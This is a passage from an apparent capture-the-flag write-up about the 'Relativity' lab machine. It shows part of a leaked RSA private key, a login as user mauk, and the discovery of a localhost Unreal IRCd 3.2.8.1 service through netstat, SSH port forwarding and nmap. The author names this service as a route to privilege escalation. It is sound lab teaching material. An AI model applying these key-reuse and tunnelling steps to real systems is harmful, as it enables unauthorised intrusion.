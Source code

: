 ``` plain
ubsEzQKBgQDpWaD5rTcaWueiH2DwI7kbdgyf6yfpunsRNsnq0GqZ2wSaUyKt9b1j
bj9Dp+VxrUt584v//7z9Skkde2akJbA/qiF8/oOvzaiNRAOfpLCiqoL0vJ5dIvcg
aXwuOk5Dt0/xQWPAKHL6HYyzQjnad/VAmn6tnxko1A/S8ELiG+MUtg==
-----END RSA PRIVATE KEY-----
```

We can save this private key on our machine and use it to log in as mauk! After looking around without any major discoveries, I noticed this folder in */opt/*:

``` plain
[mauk@Relativity ~]$ ls -l /opt
total 4
drwx------ 13 jetta jetta 4096 May 20 18:32 Unreal
```

That means there is an Unreal IRCd server there! But I didn't find one when port scanning. Looking at the listening programs, there is indeed an IRC server listening on localhost on port 6667:

``` plain
[mauk@Relativity ~]$ netstat -lntp
(No info could be read for "-p": geteuid()=1001 but you should be root.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:6667          0.0.0.0:*               LISTEN      -                   
...
```

The ircd server might be an avenue for privilege escalation to jetta:

``` plain
[mauk@Relativity ~]$ ps -u jetta
  PID TTY          TIME CMD
  557 ?        00:00:00 ircd
```

But there was no netcat installed on the machine, so to find some information about the irc server, I set up SSH port forwarding so I can access it from my machine:

``` plain
root@kali:~# ssh -L 4444:127.0.0.1:6667 mauk@192.168.80.128 
Last login: Sat May 23 18:25:04 2015 from 192.168.80.130
[mauk@Relativity ~]$ 
```

And now I could port scan my local 4444 port to learn more:

``` plain
root@kali:~# nmap -A -sV 127.0.0.1 4444

Starting Nmap 6.47 ( http://nmap.org ) at 2015-05-23 16:31 EEST
setup_target: failed to determine route to 4444 (0.0.17.92)
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000065s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE VERSION
4444/tcp open  irc     Unreal ircd
| irc-info: 
|   server: relativity.localdomain
|   version: Unreal3.2.8.1. relativity.localdomain 
|   servers: 1
|   users: 1
|   lservers: 0
|   lusers: 1
|   uptime: 0 days, 0:51:08
|   source host: rox-D2735CD4
```